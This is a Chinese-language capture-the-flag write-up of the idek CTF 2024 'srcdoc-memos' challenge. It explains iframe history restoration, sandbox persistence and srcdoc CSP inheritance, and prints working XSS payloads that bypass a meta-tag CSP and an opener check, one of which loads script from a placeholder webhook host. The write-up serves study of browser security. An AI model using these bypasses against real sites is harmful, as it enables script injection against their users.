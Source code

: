 # [srcdoc-memos](https://blog.huli.tw/2024/09/07/idek-ctf-2024-iframe)

看个wp看得cpu烧了，故自己再写一遍理清思路

题目有个`/memo?memo=xxx`的api可用于设置cookie，然后重定向至`/`用iframe的srcdoc展示cookie的内容。然而`/`里有一段script：
```html
<script>
document.head.insertAdjacentHTML(
  "beforeend",
  `<meta http-equiv="Content-Security-Policy" content="script-src 'none';">`
);
if (window.opener !== null) {
  console.error("has opener");
  document.documentElement.remove();
}
</script>
```
用meta标签给当前页面加了个CSP，同时检查当前页面的opener为null。后者很容易绕过，甚至有两种方法：
1. 让某个window在open目标window后再使用window.close快速关闭自己，这样那个打开的window的opener属性就是null（console上这样做没用，说是“不能在没有动作下就开启新的window，所以第二个open会被挡住”）
2. 用window.open开启window后手动将opener设为null。这样并不代表被开启的window就没法访问父window了，只需要记住父window的name属性即可。具体怎么找到父window见 https://blog.huli.tw/2022/04/07/iframe-and-window-open/#windowopen

还剩个csp要解决。`script-src 'none';`在这肯定是啥也干不了的，但是这个csp是在index页面的script里添加的，可不可以让它不执行？可以考虑用iframe的csp属性，我们自己写个iframe，其src为`/memo`。这样在重定向到index时，由于我们自己的csp，script不会运行，从而csp无法生效
```html
<script>
  const challengeHost = 'xxx'
  function openNoOpener(url, name) { //这个函数就是上面提到的第二种方法
    let w = window.open(url, name)
    w.opener = null
  }
  let html = `
    html
    <script src="webhook"></script>
    <iframe csp="script-src http: https:" src="/"></iframe>
  `;
  openNoOpener(`${challengeHost}/memo?memo=${encodeURIComponent(html)}`, 'main');
</script>
```
过程大概是这样的。打开memo并设置cookie为html，然后从memo重定向至index。index内部用srcdoc装html。注意此刻index里script还会生效，故从webhook导入的payload暂时无法生效。但是我们在这里又开了一个iframe，src还是index，并设置script-src只能来自`http:`或`https:`。此时这个iframe里打开第二个index。这第二个index界面被iframe的csp牵制，script里的内容无法执行；无法执行就没有csp；没有csp便可以从外部导入payload了，iframe的csp也允许这点。然而这个做法在最新版本的chrome已经没法用了，如果某个页面原本没有csp，就不能用iframe强加一个。看看预期解

iframe是一个独立的window，自然也可以做navigation。假如有个iframe，原本src是A，现在给它改成B。此时若按上一页，或是执行history.back，会发生什么？答案是iframe从B回到A，而不是装着iframe的那个页面整体回到上一页。这是因为iframe的navigation也会被记录到history中。稍微复杂一点：
```html
<body>
  <iframe sandbox id=f src="data:text/html,test1:<script>document.writeln(Math.random())<\/script>"></iframe>
  <button onclick="loadTest2()">load test2</button>
</body>
<script>
  function loadTest2() {
    f.removeAttribute('sandbox')
    f.src = 'data:text/html,test2:<script>document.writeln(Math.random())<\/script>'
  }
</script>
```
首先iframe `f`载入test1，然后执行loadTest2，把f的sandbox拿掉，并更改其src为test2。此时若按上一页，会发生什么？根据刚才的结论，iframe `f`的src会变回test1。然而这个被移除的sandbox属性不会回来了，保持着没有的状态。这样的话test1里的script就可以执行了。合理，更改src的操作会被记录到history中，但script修改sandbox的操作可不会（我是这么理解的，wp里的理解是说“只是改动src而已，没有动sandbox，因此sandbox维持在最新的状态”）。再复杂一点：
```html
<body>
  <iframe sandbox id=f src="data:text/html,test1:<script>document.writeln(Math.random())<\/script>"></iframe>
  <button onclick="loadTest2()">load test2</button>
  <button onclick="location = 'a.html'">top level navigation</button>
</body>
<script>
  console.log('run')
  function loadTest2() {
    f.removeAttribute('sandbox')
    f.src = 'data:text/html,test2:<script>document.writeln(Math.random())<\/script>'
  }
</script>
```
1. iframe `f`载入test1。sandbox存在故不会执行script
2. loadTest2移除sandbox并载入test2。test2里的script会执行
3. 按下top level navigation，把网页跳去其他地方
4. 按下浏览器上的上一页

如果有bfcache的话，结果就是上一页之前的状态（4个操作后）。毕竟都cache了，和之前不一样就怪了。如果没有bfcache呢？网页应该重新加载一遍，回到最开始的状态。即sandbox iframe `f`载入test1。然而结果是sandbox iframe `f`载入test2。看起来f的sandbox属性跟着页面最新的状态，但src却不是（最新的应为test1），还是和之前的结论一样，回到上一个src test2。这个「回到上一页时，iframe的src回到上次的内容」的机制，就叫做iframe reparenting，似乎没有对应的文档完整描述，而且各个浏览器的实现也都不太一样。不懂为什么叫reparenting，google翻译叫“iframe 重新定位”，我感觉叫iframe src restoring比较直白，反正就是回到上一个src。这个操作反着看就是一个绕过手段，比如无sandbox iframe+安全test1，然后改成sandbox iframe+危险test2。攻击者可以将网页导去其他地方，再回来就出现了无sandbox iframe+危险test2。总之：
1. sandbox属性永远跟着最新的页面
2. src是上一次最后载入的网页

如果用iframe src的话，等同于嵌入了另一个独立的网页，因此两个网页之间的CSP没有任何关联，不会互相影响。但如果是用srcdoc的话，就有继承关系了。就是题目index页面的情况，index有个CSP，那么其子iframe的srcdoc里的内容继承该CSP，script-src也是none。子iframe继承parent的CSP，合理。继续搞事情：
1. 按下top level navigation，去到别的页面
2. 更新index页面，把head里的CSP删掉
3. 按下上一页

假如没有bfcache，加上我又把CSP删了，此时应该算是第一次加载此页面，那index页面和srcdoc里的script都可以执行。结果只对了一半，index里的script可以执行，但srcdoc里的不行。说明此时iframe srcdoc的CSP并不是继承于当前页面，而是继承于history里的结果。用专有名词来说的话，叫做session history以及policy container

总结：
1. sandbox属性永远跟着最新的页面
2. src是上一次最后载入的网页
3. srcdoc的CSP继承上次的结果

就你一个sandbox跟着最新结果，其他两个都跟着history里的上次结果。很多奇奇怪怪的绕过正是生于这种不统一性。最后一步，理解payload：
```html
<script>
  const challengeHost = 'xxx'
  const xssPayload = `<script>alert(document.domain)<\/script>`
  const payload = `<iframe sandbox="allow-same-origin" src="/memo?memo=${xssPayload}">`
  const win = window.open(`${challengeHost}/memo?memo=` + payload)
  setTimeout(() => {
    const win2 = window.open(`${challengeHost}/memo?memo=<iframe></iframe>`)
    setTimeout(() => {
      win2.close()
      win.location = URL.createObjectURL(new Blob([`
        <script>
          setTimeout(() => {
           history.back();
          }, 500);
        <\/script>
      `], { type: "text/html" }));
    }, 1000)
  }, 1000)
</script>
```
开个`/memo`的window，重定向到index后内容如下：
```html
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<body>
  <iframe srcdoc='
    <iframe
      sandbox="allow-same-origin"
      src="/memo?memo=<script>alert(1)</script>">
    </iframe>
  '>
  </iframe>
</body>
```
srcdoc里还是个iframe套娃，但是由于sandbox，内容就很简单了,因为施加csp的script无法执行：
```html
<head></head> <!-- 空的 head，沒有 CSP -->
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```
然而alert也不会执行，还是因为那个sandbox。继续往下走payload，打开另一个网页win2，将cookie的内容改为`<iframe></iframe>`。最后在win上执行history.back（虽然是更改win.location，但本质只是执行history.back）。跟着history来，上一个打开的网页是`/memo?memo=<iframe></iframe>`,所以此时url是这个，网页内容为：
```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<body>
    <iframe srcdoc='
        <iframe></iframe>
    '>
    </iframe>
</body>
```
……是吗？你这srcdoc也要回到上一个吧（话说这个回退的操作是不是最后做的，本来页面重新加载就应该把`<iframe></iframe>`写上去的，可能back后又给它覆盖回去了？），上一个是啥来着？往上翻，是`<script>alert(1)</script>`。然后啥都不要想，根据之前学的内容，sandbox是什么？它一定跟着最新的页面，所以不要考虑那么多，当前页面没看见sandbox，那就是没有，所以应该是这样：
```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```
这个页面应该是上面提到的iframe套娃内容，本来不应该有csp的。但是因为提到的那个性质，sandbox没了，于是csp又回来了（重新加载时script给它加上去了）。但是！srcdoc的CSP继承上次的结果，和这个没关系。那上次的CSP是什么？没有啊，就是标着“空的 head，沒有 CSP”那里。于是当前页面看着有个csp，其实是没有的。完成xss

此题相关issue： https://github.com/whatwg/html/issues/6809 。另外wp作者的另一篇文章也不错，iframe和open的一些奇怪特性： https://blog.huli.tw/2022/04/07/iframe-and-window-open